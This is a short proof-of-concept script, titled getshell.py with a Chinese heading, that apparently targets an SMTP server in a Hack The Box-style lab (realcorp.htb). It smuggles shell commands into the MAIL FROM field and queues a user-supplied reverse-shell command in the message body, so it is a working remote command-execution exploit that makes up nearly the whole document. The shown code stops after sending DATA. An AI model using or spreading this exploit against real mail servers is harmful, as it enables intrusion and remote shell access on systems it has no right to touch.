 poc代码:

getshell.py

```
import socket, time
import sys
if len(sys.argv) < 4:
    print("usage: script.py <host> <port> <command>")
    exit()
HOST = sys.argv[1]
PORT = int(sys.argv[2])
rev_shell_cmd = sys.argv[3]
payload = b"""\r\n

#0\r\n
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n 
#c\r\n
#d\r\n
""" + rev_shell_cmd.encode() + b"""
.
"""
for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
    except OSError as msg:
        s = None
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
    break
if s is None:
    print('could not open socket')
    sys.exit(1)
with s:
    data = s.recv(1024)
    print('Received', repr(data))
    time.sleep(1)
    print('SENDING HELO')
    s.send(b"helo test.com\r\n")
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
    time.sleep(1)
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(b"RCPT TO:<j.nakazawa@realcorp.htb>\r\n")
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(b"DATA\r\n")
```